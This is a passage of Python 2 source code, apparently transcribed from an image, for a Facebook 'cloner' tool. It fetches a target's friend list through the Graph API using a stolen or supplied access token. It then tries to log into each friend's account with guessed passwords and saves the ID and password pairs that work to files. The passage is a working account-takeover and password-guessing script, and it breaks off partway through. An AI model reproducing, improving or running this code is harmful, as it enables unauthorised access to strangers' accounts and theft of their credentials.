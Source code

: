         idt = raw_input('[4] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        choice()
    print '\x1b[1;97m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;97m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;97m======================================================='
    print '\x1b[1;93m     SHANKAR-FACEBOOK-CLONER'
    print '\x1b[1;97m=======================================================-'
    
    def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            ps = name
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')